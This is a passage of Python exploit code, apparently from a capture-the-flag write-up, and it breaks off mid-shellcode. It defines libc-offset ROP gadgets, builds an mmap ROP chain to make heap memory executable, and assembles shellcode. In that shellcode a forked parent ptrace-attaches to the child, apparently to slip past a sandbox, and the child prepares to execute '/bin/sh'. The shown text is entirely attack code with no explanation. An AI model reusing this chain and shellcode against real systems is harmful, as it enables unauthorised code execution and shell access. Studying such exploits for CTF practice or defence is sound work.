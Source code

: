 ```python
rcx = libc_base + 0x99a83
rdx_rbx = libc_base + 0x8bcd9
r8 = libc_base + 0x8c41b # pop r8; test ecx, ecx; jne 0x8c428; ret;

syscall = libc_base + 0x10CD92
system = libc_base + 0x4e520

mmap = flat(rax,0xA,rdi,heap_base,rsi,0x21000,rdx_rbx,0x7,0x0,syscall,(heap_base + 0x1788))

order1 = b'/bin/sh'[::-1].hex()

shellcode = asm(f'''
    mov rax, 57
    syscall
    cmp rax, 0
    je child_process
parent_process:
    mov rsi, rax
    mov r8,  rax

    mov rax, 101
    mov rdi, 0x10
    xor rdx, rdx
    xor r10, r10 
    syscall                 /* ptrace(PTRACE_ATTACH, child_pid, 0, 0) */
monitor_child:
    mov rdi, r8
    mov rsi, rsp
    xor rdx, rdx
    xor r10, r10
    mov rax, 61
    syscall                 /* invoke wait4() */

    mov rdi, 0x4200
    mov rsi, r8
    xor rdx, rdx
    mov r10, 0x00000080
    mov rax, 101
    syscall                 /* ptrace(PTRACE_SETOPTIONS, child_pid, 0, 0) */
    
    mov rdi, 0x7
    mov rsi, r8
    xor rdx, rdx
    xor r10, r10
    mov rax, 101
    syscall                 /* ptrace(PTRACE_CONT, child_pid, 0, 0) */
    
    jmp monitor_child
child_process:
    /* sleep(5) */
    push 0
    push 5
    mov rdi, rsp
    xor esi, esi
    push 0x23
    pop rax
    syscall                 /* nanosleep(requested_time='rsp', remaining=0) */
    
    mov rax, 0x{order1}
    push rax
    mov rdi, rsp
    mov rsi, 0
    xor rdx, rdx
```